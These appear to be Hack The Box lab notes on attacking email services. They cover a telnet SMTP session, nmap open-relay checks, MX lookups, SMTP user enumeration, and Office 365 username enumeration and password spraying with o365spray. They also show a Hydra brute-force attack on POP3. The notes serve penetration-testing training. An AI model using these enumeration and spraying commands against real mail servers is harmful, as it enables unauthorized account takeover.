 ```yaml
---
layout: default
---
```


# Interacting
```bash
$ telnet 10.129.14.128 25
```

## Send an Email
```bash
$ telnet 10.129.14.128 25

Trying 10.129.14.128...
Connected to 10.129.14.128.
Escape character is '^]'.
220 ESMTP Server


EHLO inlanefreight.htb

250-mail1.inlanefreight.htb
250-PIPELINING
250-SIZE 10240000
250-ETRN
250-ENHANCEDSTATUSCODES
250-8BITMIME
250-DSN
250-SMTPUTF8
250 CHUNKING


MAIL FROM: <cry0l1t3@inlanefreight.htb>

250 2.1.0 Ok


RCPT TO: <mrb3n@inlanefreight.htb> NOTIFY=success,failure

250 2.1.5 Ok


DATA

354 End data with <CR><LF>.<CR><LF>

From: <cry0l1t3@inlanefreight.htb>
To: <mrb3n@inlanefreight.htb>
Subject: DB
Date: Tue, 28 Sept 2021 16:32:51 +0200
Hey man, I am trying to access our XY-DB but the creds don't work. 
Did you make any changes there?
.

250 2.0.0 Ok: queued as 6E1CF1681AB


QUIT

221 2.0.0 Bye
Connection closed by foreign host.
```

# Footprinting the Service
## Nmap
```bash
$ sudo nmap <IP> -sC -sV -p25`
```

## Nmap - Open Relay
```bash
$ sudo nmap <IP> -p25 --script smtp-open-relay -v`
```

## Attacking Email Services
### Host - MX Records
```bash
$ host -t MX hackthebox.eu
```

### DIG - MX Records
```bash
$ dig mx inlanefreight.com | grep "MX" | grep -v ";"
```

### Host - A Records
```
COR33@htb[/htb]$ host -t A mail1.inlanefreight.htb.
```

```
COR33@htb[/htb]$ smtp-user-enum -M RCPT -U userlist.txt -D inlanefreight.htb -t 10.129.203.7
```

### O365 Spray
```
COR33@htb[/htb]$ python3 o365spray.py --validate --domain msplaintext.xyz
```

Now, we can attempt to identify usernames.

```
COR33@htb[/htb]$ python3 o365spray.py --enum -U users.txt --domain msplaintext.xyz        
```

## Password Attacks
### Hydra - Password Attack
```
COR33@htb[/htb]$ hydra -L users.txt -p 'Company01!' -f 10.10.110.20 pop3
```

### O365 Spray - Password Spraying
```
COR33@htb[/htb]$ python3 o365spray.py --spray -U usersfound.txt -p 'March2022!' --count 1 --lockout 1 --domain msplaintext.xyz
```
